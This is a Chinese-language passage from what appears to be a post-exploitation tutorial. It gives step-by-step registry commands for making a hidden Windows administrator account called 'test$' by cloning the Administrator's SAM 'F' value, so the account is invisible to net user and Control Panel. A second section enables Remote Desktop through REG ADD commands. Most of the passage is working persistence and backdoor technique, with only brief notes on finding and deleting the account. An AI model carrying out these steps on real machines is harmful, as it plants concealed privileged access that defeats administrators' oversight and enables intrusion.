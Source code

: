 * 导出注册表

在注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`下找到新建的帐户`test$`
获取默认类型为`0x3ea`

将注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$`导出为`1.reg`

在注册表下能够找到`对应类型名称`的注册表项

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EA`

右键将该键导出为`2.reg`，保存的文件信息如下图

默认情况下，管理员帐户`Administrator`对应的注册表键值为
`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4`

同样，右键将该键导出为`3.reg`

将注册表项`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EA`下键`F`的值替换为
`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4`下键`F`的值
即`2.reg`中键F的值替换成`3.reg`中键`F`的值

```
net user test$ /del
regedit /s 1.reg
regedit /s 2.reg
```

隐藏账户制做完成，控制面板不存在帐户`test$`
通过`net user`无法列出该帐户
计算机管理-本地用户和组-用户也无法列出该帐户

但可通过如下方式查看：

`net user test$`

无法通过`net user test$ /del`删除该用户，
提示用户不属于此组
删除方法：
删除注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\ `下对应帐户的键值**(共有两处)**


# 0x03 开启rdp端口

查询系统是否允许3389远程连接,1表示关闭，0表示开启

`REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections`

查看远程连接的端口,端口格式为16进制

`REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber`

开启远程桌面

```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
```
